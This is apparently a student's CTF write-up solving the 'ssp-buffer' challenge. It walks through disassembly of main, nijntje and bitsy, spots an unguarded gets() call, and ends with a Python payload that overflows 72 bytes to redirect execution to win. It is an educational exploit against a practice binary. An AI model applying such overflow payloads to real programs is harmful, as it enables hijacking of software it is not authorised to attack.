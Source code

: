 ```yaml
---
title:  "Writeup: Solving SSP-Buffer"
date:   2019-04-26 12:30:00
categories: writeup
author: Jake Grycel
layout: post
---
```


To start this challenge, let's first look at the name of the binary: ssp-buffer.
SSP-Buffer is an abbreviation for 'Stack Smashing Protection Buffer', which is
essentially fancy language for the **stack canaries** we've discussed in class.
While your first instinct may be to prepare for leaking a canary value in order
to craft an acceptable buffer overflow payload (as mine was), we should look for
vulnerabilities to exploit.

Since we only have the binary to work on, we need some sort of disassembly tool
to figure out what is going on in this program. While this challenge ends up not
being too complex, and is doable just using GDB, I solved it using
[Cutter](https://github.com/radareorg/cutter), which is a reverse engineering
GUI built on Radare2. Some of the nice features of Cutter is that it has a built
in pseudo-code generator that produces C (like) code that represents the binary,
and that it has a control flow map that shows how the program jumps between
blocks of code. I'll mainly use the output from Cutter in this writeup, but I'll
also include GDB commands that will give you the same result

Let's first look at what functions we have in the binary (`objdump -t ssp-buffer`).
From the function, list we see four interesting entries: `main`, `win`, `bitsy`,
and `nijntje`. So let's disassemble main and see what the program does (`gdb> disas main`).
The Cutter disassembly includes helpful information like strings that are compared,
and visualizations of the control flow.

```
/ (fcn) main 169
|   int main (int argc, char **argv, char **envp);
|           ; var char *s1 @ rbp-0x50
|           ; var char *s @ rbp-0x40
|           ; arg int32_t arg_50h @ rbp+0x50
|           0x00400895      push rbp
|           0x00400896      mov  rbp, rsp
|           0x00400899      sub  rsp, 0x50 ; 'P'
|           0x0040089d      mov  rdx, qword [obj.stdin] ; obj.stdin__GLIBC_2.2.5 ; [0x601080:8]=0 ; FILE *stream
|           0x004008a4      lea  rax, [s]
|           0x004008a8      mov  esi, 0x40 ; '@' ; 64 ; int size
|           0x004008ad      mov  rdi, rax ; char *s
|           0x004008b0      call sym.imp.fgets ; char *fgets(char *s, int size, FILE *stream)
|           0x004008b5      mov  rdx, qword [obj.stdin] ; obj.stdin__GLIBC_2.2.5 ; [0x601080:8]=0 ; FILE *stream
|           0x004008bc      lea  rax, [s1]
|           0x004008c0      mov  esi, 0xa ; int size
|           0x004008c5      mov  rdi, rax ; char *s
|           0x004008c8      call sym.imp.fgets ; char *fgets(char *s, int size, FILE *stream)
|           0x004008cd      test rax, rax
|       ,=< 0x004008d0      jne  0x4008d9
|       |   0x004008d2      mov  eax, 0xffffffff ; -1
|      ,==< 0x004008d7      jmp  0x40093c
|      |`-> 0x004008d9      lea  rax, [s1]
|      |    0x004008dd      mov  esi, 0x400a1c ; const char *s2
|      |    0x004008e2      mov  rdi, rax ; const char *s1
|      |    0x004008e5      call sym.imp.strcspn ; size_t strcspn(const char *s1, const char *s2)
|      |    0x004008ea      mov  byte [rbp + rax - 0x50], 0
|      |    0x004008ef      lea  rax, [s1]
|      |    0x004008f3      mov  edx, 0xa ; size_t n
|      |    0x004008f8      mov  esi, str.nijntje ; 0x400a1e ; "nijntje" ; const char *s2
|      |    0x004008fd      mov  rdi, rax ; const char *s1
|      |    0x00400900      call sym.imp.strncmp ; int strncmp(const char *s1, const char *s2, size_t n)
|      |    0x00400905      test eax, eax
|      |,=< 0x00400907      jne  0x400913
|      ||   0x00400909      mov  eax, 0
|      ||   0x0040090e      call sym.nijntje
|      |`-> 0x00400913      lea  rax, [s1]
|      |    0x00400917      mov  edx, 0xa ; size_t n
|      |    0x0040091c      mov  esi, str.bitsy ; 0x400a26 ; "bitsy" ; const char *s2
|      |    0x00400921      mov  rdi, rax ; const char *s1
|      |    0x00400924      call sym.imp.strncmp ; int strncmp(const char *s1, const char *s2, size_t n)
|      |    0x00400929      test eax, eax
|      |,=< 0x0040092b      jne  0x400937
|      ||   0x0040092d      mov  eax, 0
|      ||   0x00400932      call sym.bitsy
|      |`-> 0x00400937      mov  eax, 0
|      `--> 0x0040093c      leave
\           0x0040093d      ret
            0x0040093e      nop
```

To summarize what is happening here, the program:
1. Allocates an 80 byte buffer for user input
2. Waits for an input (but doesn't check it)
3. Waits for a second input
4. Compares the input to "nijntje" -- calls `nijntje` if there's a match
5. Compares the input to "bitsy" -- calls `bitsy` if there's a match

Unfortunately, there is no call to `win`, so we'll have to insert the address of
`win` somehow to get it to run. There's a buffer in main, but it may be a
nuiscance to exploit since there are so many function calls and jumps. So, let's
look at `nijntje` and `bitsy`.

(`gdb> disas nijntje`)

```
/ (fcn) sym.nijntje 79
|   sym.nijntje ();
|           ; var char *s @ rbp-0x90
|           ; var int32_t canary @ rbp-0x8
|           0x00400820      push rbp
|           0x00400821      mov  rbp, rsp
|           0x00400824      sub  rsp, 0x90
|           0x0040082b      mov  rax, qword fs:[0x28] ; [0x28:8]=-1 ; '(' ; 40
|           0x00400834      mov  qword [canary], rax
|           0x00400838      xor  eax, eax
|           0x0040083a      mov  edi, str.nijntje_entered ; 0x4009fe ; "nijntje entered" ; const char *s
|           0x0040083f      call sym.imp.puts ; int puts(const char *s)
|           0x00400844      lea  rax, [s]
|           0x0040084b      mov  rdi, rax ; char *s
|           0x0040084e      mov  eax, 0
|           0x00400853      call sym.imp.gets ; char *gets(char *s)
|           0x00400858      nop
|           0x00400859      mov  rax, qword [canary]
|           0x0040085d      xor  rax, qword fs:[0x28]
|       ,=< 0x00400866      je   0x40086d
|       |   0x00400868      call sym.imp.__stack_chk_fail ; void __stack_chk_fail(void)
|       `-> 0x0040086d      leave
\           0x0040086e      ret
```

`nijntje` prints out a "nijntje entered" string, looks for an input from stdin,
and returns after checking a stack canary. If we were to overflow this buffer to
overwrite the return address, we would also have to leak the canary value and 
insert that into our exploit string. Maybe there's another way around this.
Let's look at `bitsy` (`gdb> disas bitsy`).

```
/ (fcn) sym.bitsy 38
|   sym.bitsy ();
|           ; var char *s @ rbp-0x40
|           0x0040086f      push rbp
|           0x00400870      mov  rbp, rsp
|           0x00400873      sub  rsp, 0x40 ; '@'
|           0x00400877      mov  edi, str.bitsy_entered ; 0x400a0e ; "bitsy entered" ; const char *s
|           0x0040087c      call sym.imp.puts ; int puts(const char *s)
|           0x00400881      lea  rax, [s]
|           0x00400885      mov  rdi, rax ; char *s
|           0x00400888      mov  eax, 0
|           0x0040088d      call sym.imp.gets ; char *gets(char *s)
|           0x00400892      nop
|           0x00400893      leave
\           0x00400894      ret
```

`bitsy` does pretty much the same thing, except there's no stack canary check,
so let's use this for a buffer overflow attack. First, we know that `bitsy`
allocates a 64 byte buffer for user input, so we'll have to enter 64 bytes of
garbage to fill the buffer. At the end of the function, `leave` updates the
stack pointer to point to the current frame base pointer, and restores the base
pointer for the original calling function:

```
leave:
mov esp, ebp
pop ebp
```

The `ret` instruction pops the next value off of the stack, and loads that value
into the instruction pointer as the return address. So, considering the buffer,
the old base pointer, we have 64 buffer bytes + 8 base pointer bytes for a total
of 72 bytes to write/overflow before writing the address of win to hijack the
program flow (`gdb> p win`).

However, we also need to provide the program with the initial random input and 
the "bitsy" input before giving our overflow string. To create this entire input
we can use the following python script:

python -c 'print "bitsy\n" + "bitsy\n" + "a"*72 + "\xc6\x07\x40"'
